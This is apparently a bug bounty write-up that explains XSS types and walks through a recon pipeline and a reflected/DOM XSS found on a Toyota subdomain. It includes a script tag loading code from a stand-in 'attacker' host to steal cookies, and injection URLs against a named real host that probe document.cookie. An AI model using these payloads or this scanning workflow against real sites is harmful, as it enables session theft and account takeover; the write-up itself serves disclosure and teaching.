# :globe_with_meridians: How I Found Multiple XSS Vulnerabilities Using Unknown Techniques

---

# How I Found Multiple XSS Vulnerabilities Using Unknown Techniques

Hello, everyone. I hope you are well.بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ



Today I’m going to talk about Multiple XSS Attacks Using Different Techniques, which I discovered while working in various bug bounty programs.

XSS: (Cross-site scripting) is a security vulnerability that occurs when an attacker injects malicious scripts into web pages viewed by other users. XSS attacks aim to execute malicious scripts in the context of a victim’s browser, allowing the attacker to steal sensitive information. for example, in the javascript programming language, if the attacker can inject things like



```
<script src=https://attacker_Server.com/attack.js></script>
// Load malicious Java script files from the attacker server which execute malicious actions like stealing sensitive data from the victim like session cookies and getting account takeover.
```

##  Types of XSS?1] Reflected XSS: is the simplest type of XSS. It happens when an application receives data in an HTTP request and includes that data within the response unsafely. EX: If we have a category parameter for filter clothes in the website, for example, “[https://example.com?category=t-shirt](https://example.com/?category=t-shirt)”, and this value is reflected in an unsafe way in the response like `<p>t-shirt</p>` this means that we can inject our payload like`<p><script>alert(document.cookie)</script></p>` to get the session cookie.



2] DOM XSS: It occurs when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()`or `innerHTML`. This enables attackers to execute malicious JavaScript, The most important thing you need to understand in depth about DOM is the source and sink For more information about the source and sink look[portswigger](https://portswigger.net/web-security/cross-site-scripting/dom-based).3] Stored XSS: It happens when an application receives data from an untrusted source and unsafely includes that data within its later HTTP responses. EX: Suppose a website allows users to submit comments on blog posts displayed to other users. Attackers submit malicious comments, these comments will be storedon theserver, and when other users see these malicious comments, the attacker will steal their data.

There is more and more information about XSS but I will share some references at the end of the article, Now it's time for the bugs found.



##  XSS Vulnerabilities:

### * Critical DOM XSS in Toyota::



$Keys$: automation tools [gau+dalfox+etc..]

Now, We have a Toyota domain and we need to gather subdomains for the domain. You can use tools like [sublist3r](https://github.com/aboul3la/Sublist3r) — [subfinder](https://github.com/projectdiscovery/subfinder) — [asset finder](https://github.com/tomnomnom/assetfinder) — [amass](https://github.com/owasp-amass/amass) -.. then filter these subdomains using [httpx](https://github.com/projectdiscovery/httpx) that are used to get the live subdomains.



```
httpx -l subdomains.txt -o httpx.txt
```

Now Let’s Gather the endpoints from a Wayback Machine and Common Crawl



```
echo "toyota.com" | gau --threads 5 >> Enpoints.txt
```

```
cat httpx.txt | katana -jc >> Enpoints.txt
```



Because most of them would be duplicated, we would get rid of them with

```
cat Enpoints.txt | uro >> Endpoints_F.txt
```



>

[gau](https://github.com/lc/gau): a tool that fetches known URLs from the Wayback Machine, for any domain.



[katana:](https://github.com/projectdiscovery/katana) is a powerful tool that focuses on web crawling in depth.

[uro:](https://github.com/s0md3v/uro) a good tool for filtering uninteresting/duplicate content from the endpoints gathered for example if we have multiple URLs like [https://example.com?id=1](https://example.com/?id=1) and [https://example.com?id=2](https://example.com/?id=2) will filter them to only one URL.



Note: You can automate all of the previous things with an automation script with the tools you are using like most security researchers to make the processes easier and I will share My scripts in future writeups.

Now, we have a lot of endpoints and we need to filter them for working. I’m using the awesome [gf](https://github.com/tomnomnom/gf)tool which filters the endpoints depending on the patterns provided for example there are patterns for XSS, SQLi, SSRF, etc… you can use any public patterns from GitHub like [This](https://github.com/1ndianl33t/Gf-Patterns) and Add them in “~/.gf” directory.



```
cat Endpoints_F.txt | gf xss >> XSS.txt
# For getting the endpoints that have parameters which may be vulnerable to XSS
```

Then we will use the [Gxss](https://github.com/KathanP19/Gxss) tool for finding parameters whose values are reflected in the response.



```
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
```

In this process, you have two options the first is manually testing, or use an XSS automation tool and confirm the results manually. Our file is huge, so I would use the [Dalfox](https://github.com/hahwul/dalfox) automation XSS scanners.



```
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt
```

I found that there is a vulnerable subdomain let’s call it sub.toyota.com so let’s find out what is happening.



When I navigate to the vulnerable URL [https://sub.toyota.com[/direcrory/](https://one.tis.toyota.com/serviceLane/?url=%3C%2Fscript%3E%3CscrIpt%3Econfirm%28document.domain%29%3C%2Fscript%3E)?dir=%3C%2Fscript%3E%3Cscript%3Econfirm%28document.domain%29%3C%2Fscript%3E] I got a popup message

at that moment I wondered whether this was the only vulnerable parameter or if there were other parameters and why this happened. I found a lot of vulnerable parameters.



I looked for the response and I found that the vulnerable parameters exist in URL[source] exist in different Java script variables like “var returnUrl=”,“var applicationUri=”. you can see this Javascript code to understand the idea.

```
<script>
// Assuming the URL is http://test.com?param=test
var urlParams = new URLSearchParams(window.location.search);
var paramValue = urlParams.get('param');



// This will execute the script tag in the paramValue variable
document.write(paramValue)
</script>
// If you look at the code, You will see that the value added to the parameter without any sanitization.
```

Let's send the following URL to know if the target has any protection against cookies. [https://sub.toyota.com[/direcrory/](https://one.tis.toyota.com/serviceLane/?url=%3C%2Fscript%3E%3CscrIpt%3Econfirm%28document.domain%29%3C%2Fscript%3E)?dir=%3C%2Fscript%3E%3Cscript%3Econfirm%28document.cookie%29%3C%2Fscript%3E]



Unfortunately, this means that I can perform a full account takeover on any user[RXSS]. I reported the vulnerability in full detail, and it was accepted🙂.




---
